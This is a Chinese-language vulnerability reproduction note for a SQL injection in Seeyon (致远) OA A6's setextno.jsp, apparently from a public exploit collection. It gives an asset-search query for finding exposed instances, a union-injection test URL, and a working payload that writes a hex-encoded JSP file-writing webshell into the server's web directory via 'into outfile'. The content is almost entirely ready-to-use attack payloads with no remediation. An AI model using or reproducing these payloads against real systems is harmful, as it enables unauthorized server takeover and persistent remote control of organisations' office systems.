 # 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

  <a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

  <a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下Url，其中含有 union注入

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-37.png)



查看web路径



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-38.png)



写入文件上传木马



```plain
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-40.png)